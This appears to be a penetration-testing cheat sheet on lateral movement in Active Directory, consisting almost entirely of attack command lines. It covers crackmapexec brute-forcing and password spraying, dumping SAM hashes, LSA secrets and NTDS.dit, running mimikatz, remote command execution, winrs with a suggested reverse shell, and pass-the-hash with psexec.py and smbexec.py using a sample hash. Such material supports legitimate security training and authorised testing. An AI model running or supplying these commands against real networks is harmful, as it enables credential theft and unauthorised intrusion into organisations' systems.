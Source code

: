 ## Lateral Movement in AD

### Crackmapexec
```javascript
crackmapexec {smb/winrm/mssql/ldap/ftp/ssh/rdp} #supported services
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success # Bruteforcing attack, smb can be replaced. Shows "Pwned"
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success | grep '[+]' #grepping the way out!
crackmapexec smb <Rhost/range> -u user.txt -p 'password' --continue-on-success  #Password spraying, viceversa can also be done

#Try --local-auth option if nothing comes up
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --shares #lists all shares, provide creds if you have one
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --disks
crackmapexec smb <DC-IP> -u 'user' -p 'password' --users #we need to provide DC ip
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sessions #active logon sessions
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --pass-pol #dumps password policy
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sam #SAM hashes
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --lsa #dumping lsa secrets
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --ntds #dumps NTDS.dit file
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --groups {groupname} #we can also run with a specific group and enumerated users of that group.
crackmapexec smb <Rhost/range> -u 'user' -p 'password' -x 'command' #For executing commands, "-x" for cmd and "-X" for powershell command

#Pass the hash
crackmapexec smb <ip or range> -u username -H <full hash> --local-auth
#We can run all the above commands with hash and obtain more information

#crackmapexec modules
crackmapexec smb -L #listing modules
crackmapexec smb -M mimikatx --options #shows the required options for the module
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz #runs default command
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug' #runs specific command-M 
```

### Winrs
```javascript
winrs -r:<computername> -u:<user> -p:<password> "command"
# run this and check whether the user has access on the machine, if you have access then run a powershell reverse-shell
# run this on windows session
```
### psexec - smbexec - wmiexec - atexec
Here we can pass the credentials or even hash, depending on what we have
#### Always pass full hash to these tools!
```javascript
psexec.py <domain>/<user>:<password1>@<IP>
# the user should have write access to Admin share then only we can get sesssion

psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command> 
#we passed full hash here

smbexec.py <domain>/<user>:<password1>@<IP>

smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command> 
#we passed full hash here
```
